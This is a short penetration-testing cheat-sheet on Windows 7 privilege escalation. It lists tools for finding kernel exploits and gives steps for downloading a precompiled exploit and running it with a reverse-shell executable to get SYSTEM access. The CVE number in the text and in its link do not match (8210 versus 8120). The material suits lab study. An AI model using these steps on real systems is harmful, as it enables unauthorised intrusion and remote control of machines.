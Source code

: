 ##### Tools
Windows Exploit Suggester:
https://github.com/bitsadmin/wesng
Precompiled Kernel Exploits:
https://github.com/SecWiki/windows-kernel-exploits
Watson: https://github.com/rasta-mouse/Watson

### Privilege Escalation
(Note: These steps are for Windows 7)
1.Extract the output of the systeminfo command:
`> systeminfo > systeminfo.txt`
2.Run wesng to find potential exploits:
`$ python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less`
3.Cross-reference results with compiled exploits:
https://github.com/SecWiki/windows-kernel-exploits
4.Download the compiled exploit for CVE-2018-8210 onto
the Windows VM: https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2018-8120/x64.exe
5.Start a listener on Kali and run the exploit, providing it
with the reverse shell executable, which should run with
SYSTEM privileges:
`> .\x64.exe C:\PrivEsc\reverse.exe`
